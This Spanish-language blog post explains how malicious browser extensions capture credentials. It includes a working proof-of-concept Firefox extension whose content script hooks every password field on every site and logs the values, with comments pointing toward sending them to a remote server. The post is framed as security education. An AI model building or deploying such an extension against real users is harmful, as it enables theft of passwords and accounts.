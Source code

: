 ```yaml
---
layout: post
title: Extensiones maliciosas capturando credenciales 
category: hacking,extension,web,javascript
permalink: "blog/extensiones-maliciosas"
published: yes
---
```




# Protegiendo tu navegador: Cómo las extensiones maliciosas pueden comprometer tus credenciales

Las extensiones del navegador, diseñadas para mejorar nuestra experiencia en línea pueden convertirse en una herramienta peligrosa si esta creada para propositos maliciosos.
Pueden usarse por ejemplo para:
* Robo de datos: Pueden capturar información posible sensible como contraseña y datos bancarios
* Seguimiento no autorizado: Rastrean la actividad de navegación del usuario sin su consentimiento
* Inyección de anuncios: Insertan publicidad no deseada en las páginas web visitadas.
* Botnet: Utilizan los recursos del navegador para actividades maliciosas en red

Estas extensiones aprovechan los permisos otorgados por el usuario para acceder a datos sensibles y realizar acciones no autorizadas.

### Prueba de Concepto - Ejemplo

Una prueba de concpeto básica podría involucrar la creación de una extensión para Firefox que observe los campos de contraseña. Un ejemplo simplificado:

1. Crea un nuevo directorio para tu extensión, ejemplo: Observer
2. Crea un archivo `manifest.json`
```js
{
  "manifest_version": 2,
  "name": "Password Observer",
  "version": "1.0",
  "description": "Observa campos de contraseña (solo para fines educativos)",
  "permissions": ["<all_urls>"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"]
    }
  ]
}
```

3. Creamos un archivo `content.js` donde esta la lógica del código

```js
function observePasswords() {
  const passwordFields = document.querySelectorAll('input[type="password"]');
  
  passwordFields.forEach(field => {
    field.addEventListener('change', function(e) {
      console.log('Contraseña capturada:', e.target.value);
      // En un escenario real, aquí se enviarían los datos a un servidor externo
    });
  });
}

observePasswords();

// Observar cambios en el DOM para capturar campos añadidos dinámicamente
const observer = new MutationObserver(mutations => {
  for(let mutation of mutations) {
    if(mutation.type === 'childList') {
      observePasswords();
    }
  }
});

observer.observe(document.body, { childList: true, subtree: true });
```
Este código observa los campos de contraseña en la página y registra sus valores cuando cambian. En un escenario real de ataque, en lugar de usar console.log, se enviarían estos datos a un servidor externo.

> Para usar esta extensión en Firefox:

1. Abre Firefox y ve a about:debugging
2. Haz clic en "Este Firefox"
3. Haz clic en "Cargar complemento temporal..."
4. Selecciona el archivo manifest.json de tu extensión

![image](https://github.com/user-attachments/assets/03de74b1-9d51-49d1-99b1-d2bd8b2eb6cb)

![image](https://github.com/user-attachments/assets/7887e712-4f8a-4780-baa8-99a5672961b4)

Podemos verificar que la extensión esta habilitada , hacemos la prueba en una plataforma muy conocida de Streaming `Netflix` abrimos la consola de desarrollador con F12 e ingresamos cualquier usuario por ejemplo `test@gmail.com` y la contraseña `extension123!` Podemos ver que al momento de introducir la contraseña y enviar la solicitud nos captura la contraseña en el console.log() de la herramienta de desarrollador. Esto es posible sosfiticarla para capturar el email, cookies, password y enviarlo a un servidor remoto.

![image](https://github.com/user-attachments/assets/e6cd2a19-5016-4f6d-bb82-7c7d939f5574)

### Aviso

Es crucial enfatizar que el desarrollo o uso de herramientas para capturar credenciales sin autorización es ilegal y éticamente incorrecto. Esta información se proporciona únicamente con fines educativos para comprender mejor las amenazas de seguridad y cómo protegerse contra ellas.

Saludos.



